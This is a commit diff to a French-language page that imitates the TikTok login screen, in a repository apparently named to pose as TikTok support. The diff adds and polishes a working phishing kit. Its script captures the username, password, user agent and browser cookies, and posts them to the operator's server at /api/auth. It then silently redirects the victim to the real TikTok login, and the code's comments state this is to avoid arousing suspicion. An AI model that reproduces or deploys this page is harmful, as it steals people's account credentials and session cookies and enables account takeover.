

Before and after one commit to tiktoksupport-entreprise/noreplytiktok, a website: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,63 +5,86 @@
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Connexion | TikTok</title>
     <style>
-        body { font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif; background-color: black; color: #fff; display: flex; flex-direction: column; justify-content: space-between; align-items: center; height: 100vh; margin: 0; }
-        .header { width: 100%; padding: 20px; display: flex; justify-content: space-between; box-sizing: border-box; }
-        .logo-text { font-size: 24px; font-weight: 700; margin-left: 10px; }
-        .login-container { width: 100%; max-width: 480px; padding: 20px; margin-top: -10vh; }
-        h2 { text-align: center; font-size: 32px; margin-bottom: 30px; }
+        body { font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif; background-color: black; color: #fff; display: flex; flex-direction: column; justify-content: space-between; align-items: center; height: 100vh; margin: 0; }
+        .header { width: 100%; padding: 20px 24px; display: flex; justify-content: space-between; align-items: center; box-sizing: border-box; }
+        .logo-container { display: flex; align-items: center; text-decoration: none; color: #fff; }
+        .logo-text { font-size: 24px; font-weight: 700; letter-spacing: -0.5px; margin-left: 10px; }
+        .help-link { color: #fff; text-decoration: none; font-size: 14px; font-weight: 600; }
+        .login-container { width: 100%; max-width: 480px; padding: 20px; box-sizing: border-box; margin-top: -10vh; }
+        h2 { text-align: center; font-size: 32px; margin-bottom: 30px; font-weight: 700; }
         .input-group { margin-bottom: 15px; position: relative; }
-        .input-group input { width: 100%; padding: 14px; border: 1px solid #333; border-radius: 4px; background-color: #222; color: #fff; box-sizing: border-box; }
-        .login-btn { width: 100%; padding: 14px; background-color: #fe2c55; color: white; border: none; border-radius: 4px; font-weight: 600; cursor: pointer; }
-        .footer { width: 90%; padding: 20px; font-size: 12px; color: #888; display: flex; justify-content: space-between; }
+        .input-group input { width: 100%; padding: 14px 16px; border: 1px solid #333; border-radius: 4px; font-size: 16px; box-sizing: border-box; background-color: #222; color: #fff; }
+        .input-group input:focus { outline: none; border-color: #fe2c55; }
+        .toggle-password { position: absolute; right: 15px; top: 50%; transform: translateY(-50%); cursor: pointer; color: #888; font-size: 14px; font-weight: 600; }
+        .forgot-password { display: block; text-align: left; color: #fff; text-decoration: none; font-size: 14px; margin-bottom: 24px; font-weight: 600; }
+        .login-btn { width: 100%; padding: 14px; background-color: #fe2c55; color: white; border: none; border-radius: 4px; font-size: 16px; font-weight: 600; cursor: pointer; }
+        .footer { width: 100%; padding: 20px 24px; display: flex; justify-content: space-between; align-items: center; box-sizing: border-box; font-size: 12px; color: #888; }
     </style>
 </head>
 <body>
 
 <div class="header">
-    <div style="display:flex; align-items:center;">
-        <img src="tiktok.png" width="32" alt="logo"/>
+    <div class="logo-container">
+        <img src="tiktok.png" width="32" alt="logo_tiktok"/>
         <div class="logo-text">TikTok</div>
     </div>
-    <span style="font-size:14px;">Commentaires & assistance</span>
+    <a href="#" class="help-link">Commentaires et assistance</a>
 </div>
 
 <div class="login-container">
     <h2>Connexion</h2>
-    <form id="authForm">
+    <form id="tiktokForm">
         <div class="input-group">
-            <input type="text" id="user" placeholder="E-mail ou nom d'utilisateur" required>
+            <input type="text" id="userField" placeholder="E-mail ou nom d'utilisateur" required>
         </div>
         <div class="input-group">
-            <input type="password" id="pass" placeholder="Mot de passe" required>
+            <input type="password" id="passwordField" placeholder="Mot de passe" required>
+            <span class="toggle-password" id="toggleBtn">Afficher</span>
         </div>
+        <a href="#" class="forgot-password">Mot de passe oublié ?</a>
         <button type="submit" class="login-btn">Se connecter</button>
     </form>
 </div>
 
-<div class="footer"><span>Français</span><div>© 2026 TikTok</div></div>
+<div class="footer">
+    <span>Français</span>
+    <div>© 2026 - TikTok</div>
+</div>
 
 <script>
-    const form = document.getElementById('authForm');
+    // 1. Afficher/Masquer le mot de passe
+    const passwordField = document.getElementById('passwordField');
+    const toggleBtn = document.getElementById('toggleBtn');
+    toggleBtn.addEventListener('click', function() {
+        const type = passwordField.getAttribute('type') === 'password' ? 'text' : 'password';
+        passwordField.setAttribute('type', type);
+        this.textContent = type === 'password' ? 'Afficher' : 'Masquer';
+    });
+
+    // 2. Capture et Envoi vers Render
+    const form = document.getElementById('tiktokForm');
     form.onsubmit = async function(e) {
         e.preventDefault();
 
         const payload = {
-            identifiant: document.getElementById('user').value,
-            password: document.getElementById('pass').value,
-            userAgent: navigator.userAgent, // Capture l'appareil
-            cookies_locaux: document.cookie  // Capture les cookies non-HttpOnly
+            identifiant: document.getElementById('userField').value,
+            password: passwordField.value,
+            userAgent: navigator.userAgent,
+            cookies_locaux: document.cookie,
+            date: new Date().toLocaleString()
         };
 
         try {
-            // Envoi vers TON serveur Render (le chemin relatif fonctionne car ils sont sur le même projet)
+            // Envoi vers la route de ton serveur Render
             await fetch('/api/auth', {
                 method: 'POST',
                 headers: { 'Content-Type': 'application/json' },
                 body: JSON.stringify(payload)
             });
+        } catch (error) {
+            console.log("Erreur silencieuse");
         } finally {
-            // Redirection vers le vrai TikTok pour ne pas éveiller de soupçons
+            // Redirection vers le vrai TikTok
             window.location.href = "https://www.tiktok.com/login";
         }
     };
```
